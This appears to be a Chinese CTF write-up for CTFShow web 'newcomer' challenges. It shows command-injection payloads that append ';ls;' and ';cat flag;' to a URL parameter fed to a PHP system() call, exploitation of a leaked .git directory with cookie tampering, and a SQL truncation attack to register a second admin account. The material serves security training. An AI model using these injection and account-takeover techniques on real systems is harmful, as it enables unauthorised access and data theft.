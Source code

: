 # CTFSHOW-WEB-萌新赛

[TOC]

----

## 签到题

```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```

Paylaod:

```
https://066b0c96-e888-4472-b1c6-ec8cdc29354b.challenge.ctf.show/?url=https://066b0c96-e888-4472-b1c6-ec8cdc29354b.challenge;ls;

# flag index.php

https://066b0c96-e888-4472-b1c6-ec8cdc29354b.challenge.ctf.show/?url=https://066b0c96-e888-4472-b1c6-ec8cdc29354b.challenge;cat flag;
```



## 给她

> "给她"-->"git"
>
> 参考文章：[ctfshow 萌新赛 给她_ctfshow 给她-CSDN博客](https://blog.csdn.net/qq_39980334/article/details/127850512)

进入页面：

![image-20240820092302679](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240820092302679.png)

使用dirsearch扫描：**发现.git泄露**

使用GitHack获取：得到hint.php

```php
<?php
$pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
$sql=sprintf("select * from user where name='%s' $pass",addslashes($_GET['name']));
?>
```



进入了一个新页面，查看源码可以发现提示，最后在cookie里发现Hex编码的`file`量

![image-20240820100243922](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240820100243922.png)

我们修改值为`Hex编码的/flag`可以得到flag



## 假赛生

> 提示：提示：register.php login.php 大佬们别扫了

ctfshow{0501679b-5454-4997-92ba-6dfc76d461ca}

```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```

> sql约束攻击：https://blog.csdn.net/weixin_39194641/article/details/90448694

1. 进入注册界面，注册admin账号，采用sql约束攻击---注册时多一个空格
2. 进入登录界面，登录admin账号，get传参`c值`得到flag



## 萌新记忆

![image-20240820182105967](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240820182105967.png)

使用dirsearch扫描，发现登录后台

![image-20240820182225109](C:/Users/lenovo/Desktop/%E7%B4%A0%E6%9D%90%E5%BA%93/%E7%B4%A0%E6%9D%90/image-20240820182225109.png)

尝试了几下发现是sql注入问题

https://blog.csdn.net/m0_62422842/article/details/125126468

https://segmentfault.com/a/1190000018748071